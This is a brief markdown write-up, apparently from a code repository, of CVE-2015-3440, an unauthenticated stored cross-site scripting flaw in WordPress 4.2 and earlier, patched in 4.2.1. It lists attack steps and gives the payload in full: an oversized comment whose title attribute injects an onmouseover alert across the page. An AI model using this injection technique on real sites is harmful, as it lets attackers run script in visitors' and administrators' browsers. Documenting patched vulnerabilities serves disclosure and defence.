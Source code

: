# Steps
#### Step 1 - Gain trust from the admin
######	Create a comment on a post.

#### Step 2 - Wait
###### Wait for approval from the admin.

#### Step 3 - Inject XSS
######	Comment the payload.
	<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>


# The types / classes of vulnerabilities involved and any related CVE identifiers
#### Unauthenticated Stored Cross-Site Scripting (XSS)

#### CVE-2015-3440 

# Affected versions and patches
#### Affected version
###### WordPress <= 4.2 

#### Patched in
###### version 4.2.1

# Demo
